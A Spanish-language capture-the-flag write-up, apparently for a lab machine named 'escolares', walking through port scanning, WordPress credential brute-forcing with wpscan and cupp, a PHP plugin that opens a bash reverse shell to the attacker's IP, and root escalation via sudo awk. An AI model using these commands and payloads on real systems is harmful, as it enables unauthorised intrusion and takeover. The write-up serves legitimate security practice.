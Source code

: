 ```yaml
---
Maquina: escolares
SO: Linux
Explotación: Análisis de web
Escala_privs: Permisos sudo / Procesos root
Dificultad: Fácil
tags:
  - maquina
  - web_discovery
  - linux
  - escala_privs
  - web
  - wordpress
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sS -Pn 172.17.0.2
```

![[Pasted image 20241030175501.png]]

2. **Ver la pagina web ubicada en el puerto 80**:

![[Pasted image 20241030175535.png]]

Es una página web muy chula sobre la universidad de ingenieros y habla sobre "conceptos" de ciberseguridad. Vamos a explorar a ver si encontramos algunos detalles curiosos en la web.

Indagando un poco por la web me ha parecido encontrar algo un poco sospechoso en el listado de profesores, parece que Luis nos ha dicho un usuario o contraseña y parece que es de un wordpress (admin wordpress)

![[Pasted image 20241030175830.png]]

Parece que si que tienen un wordpress con acceso al panel de login 

![[Pasted image 20241030181029.png]]

Muy importante añadir excolares.dl al /etc/hosts para que nos reconozca este sitio desde la ip de docker.

Ahora vamos a probar el usuario y pass que nos ha dado tan amablemente Luís y ver si cuela.

![[Pasted image 20241030181321.png]]

Parece que no cuela, pero ya sabemos que el usuario luisillo si que existe...

Pues tras probar varias herramientas la palma se la lleva WPscan y cupp.

WPscan una herramienta enfocada al análisis de wordpress y la cual nos permite realizar ataques de fuerza bruta como este

```bash
wpscan --url http://escolares.dl/wordpress --usernames luisillo --passwords /home/alejandro/wordlist/rockyou.txt
```

Cupp una herramienta que nos permite generar diccionarios a partir de datos personales de un usuario.

Si ejecutamos cupp -i y vamos añadiendo inforamción sobre Luis nos dará un diccionario enorme con posibles passwd.

Si despues le decimos a WPscan que intente iniciar sesión con ese diccionario obtenemos lo siguiente

![[Pasted image 20241031131747.png]]

Ya tenemos el usuario luisillo con passwd -> Luis1981 (y sabemos que es admin de wp)

![[Pasted image 20241031153834.png]]

Pues si que nos deja logearnos y para rematar vamos a conseguir una reverseshell a partir de la creación de un plugin. Es sencillo tan solo tenemos que poner un código malicioso en php, comprimirlo en zip y activar dicho plugin en wordpress

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'");
?>
```

En cuanto le damos a activar en el propio wordpress nos mandará una conexión a nuestra terminal.

![[Pasted image 20241031155437.png]]

![[Pasted image 20241031155453.png]]

Listo, ya estamos dentro. Ahora lo que tenemos que hacer es el tratamiento de terminal para pasar a una tty funcional.

![[Pasted image 20241031155728.png]]

Una vez con el tratamiento realizado toca pasar a la acción y ver que permisos tenemos o a donde podemos llegar a acceder...

![[Pasted image 20241031155828.png]]

Tras indagar un poco (realmente poco) nos topamos con una posible contraseña de luisillo -> iuisillopasswordsecret... Vamos a intentar logearnos a su usuario.

```bash
su luisillo
```

![[Pasted image 20241031161033.png]]

Y tras probar a ver los permisos que tenemos con sudo -l descubrimos que tenemos permisos para ejecutar awk como root.

![[Pasted image 20241031161128.png]]

Nos dirigimos a GTFObins y vemos a ver si nos topamos con ua autentica ventana para escalar privs...

```bash
sudo awk 'BEGIN {system("/bin/sh")}'
```

![[Pasted image 20241031161339.png]]


